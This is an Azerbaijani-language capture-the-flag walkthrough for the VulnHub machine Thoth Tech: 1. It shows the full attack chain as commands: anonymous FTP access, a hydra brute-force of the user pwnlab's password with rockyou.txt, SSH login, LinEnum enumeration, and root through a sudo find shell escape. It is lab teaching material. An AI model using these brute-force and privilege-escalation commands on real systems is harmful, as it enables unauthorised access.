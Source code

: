 # Thoth Tech 1 CTF Həlli

- Salam hər kəsə

- Bu gün sizinlə Thoth Tech: 1 adlı ctfi həll edəcəyik

[Yükləmə linki](https://www.vulnhub.com/entry/thoth-tech-1,734/)

- .ova faylını Virtualbox-a İMPORT edirik.

- ip adresi tapdıqdan sonra nmap ilə port scan edirik.
```
sudo netdiscover -r 192.168.1.0/24
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

- İlk olaraq 80 portu açıq olduğuna görə web sayta daxil oldum və düz əməlli heçnə tapa bilmədim :D daha sonra nmap axtarışda ftp portunun açıq olduğunu və Anonymous olaraq daxil olmağın mümkün olduğunu gördüm

- ftp portuna bağlanmaq üçün terminal üzərindən

` ftp <IP adress>`


`ftp 192.168.1.105`

- `ls` əmrini icra edək görəciyik ki, `note.txt` adlı bir fayl var daha sonra more əmri ilə faylın içini oxuyaq.

`more note.txt`

- Dear pwnlab,
- My name is jake. Your password is very weak and easily crackable, I think change your password



- Bu qeydə nəzər salsaq istifadəçi adının pwnlab və parolunun zəif olduğunu görərik, elə isə bruteforce edə bilərik. Həm FTP, həm də SSH xidmətlərinin açıq olduğu bu hallarda mən FTP parolunu sındırmağa və onu SSH xidmətində təkrar istifadə etməyə üstünlük verirəm. Bunun səbəbi, SSH serverlərinin bruteforcing-ə məhdudiyyətlər qoyması, yəni sorğuları məhdudlaşdırmasıdır.

```
hydra -l pwnlab -P /usr/share/wordlists/rockyou.txt 192.168.1.105 ftp
```

- İndi biz SSH serverinə daxil ola bilərik.

```
ssh istiadəçi adı @ ip

ssh username @ ip

ssh pwnlab@192.168.1.105
```

- User flag əldə etdik root folderinə daxil olmaq istəfim ancaq alınmadı, indi isə Privilege Escalation edib root olmalıyıq ki, root flagini əldə edək.

- Sistemdə git olub olmadığını yoxladım və var.

- Elə isə /tmp/ faylına keçib [LinEnum.git](https://github.com/rebootuser/LinEnum) yükləyək və işə salaq.


- Və boom boşluğu tapdıq!!

```
sudo find . -exec /bin/bash \; -quit
```

- Bu əmr ilə artıq biz root olduq
